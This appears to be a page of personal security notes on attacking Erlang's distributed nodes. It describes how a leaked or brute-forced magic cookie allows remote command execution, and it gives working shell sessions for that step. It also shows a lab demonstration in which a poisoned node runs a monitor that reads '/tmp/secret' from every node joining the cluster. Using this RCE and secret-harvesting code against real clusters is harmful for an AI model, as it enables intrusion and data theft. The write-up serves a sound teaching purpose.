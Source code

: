 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own **magic cookie**, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

**Further Reading**

[Who wants cookies?](https://blog.voltone.net/post/4)  
[Unauthorized Erlang](https://blog.voltone.net/post/12)

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous.  We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster.  In Alex Weber's [Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous), we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers:

**bar@bar**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name bar -h bar --net example erlang:19.3 /bin/bash
root@bar:/# echo thisisbar > /tmp/secret
root@bar:/# erl -sname bar -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(bar@bar)1> net_adm:ping(foo@foo).
pong
(bar@bar)2> spawn(fun Grab_keys() ->
(bar@bar)2>   net_kernel:monitor_nodes(true),
(bar@bar)2>   receive
(bar@bar)2>     {nodeup, Node} ->
(bar@bar)2>       Keys = rpc:call(Node, os, cmd, ["cat /tmp/secret"]),
(bar@bar)2>       file:write_file(string:concat("/tmp/", Node), Keys)
(bar@bar)2>   end,
(bar@bar)2>   Grab_keys()
(bar@bar)2> end).
<0.71.0>
```

So we've set up our first node and attached our malicious monitor.

**foo@foo**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name foo -h foo --net example erlang:19.3 /bin/bash
root@foo:/# echo thisisfoo > /tmp/secret
root@foo:/# erl -sname foo -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(foo@foo)1> net_adm:ping(bar@bar)
(foo@foo)1> .
pong
```

Now we've connected to our adjacent node and if we attach a terminal to our `bar` docker container, we'll see our dumped secret within tmp.

```bash
root@bar:/tmp# ls -la
total 20
drwxrwxrwt 1 root root 4096 Apr 16 20:18 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
root@bar:/tmp# cat foo@foo
thisisfoo
```

Now, any nodes that connect, due to the way Erlang works, will have their secret instantly dumped:

**baz@baz**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name baz -h baz --net example erlang:19.3 /bin/bash
root@baz:/# erl -sname baz -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(baz@baz)1> net_adm:ping(foo@foo).
pong
```

```bash
root@bar:/tmp# ls -la
total 24
drwxrwxrwt 1 root root 4096 Apr 16 20:23 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:23 baz@baz
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
```

Whilst this may not be a particularly surprising result for Erlang developers, it does represent a quite frightening realization that a single node being compromised will indeed compromise the entire network.

**References**

[Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)  
[https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker](https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker)

## Cookie Bruteforcing

**Further Reading**

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

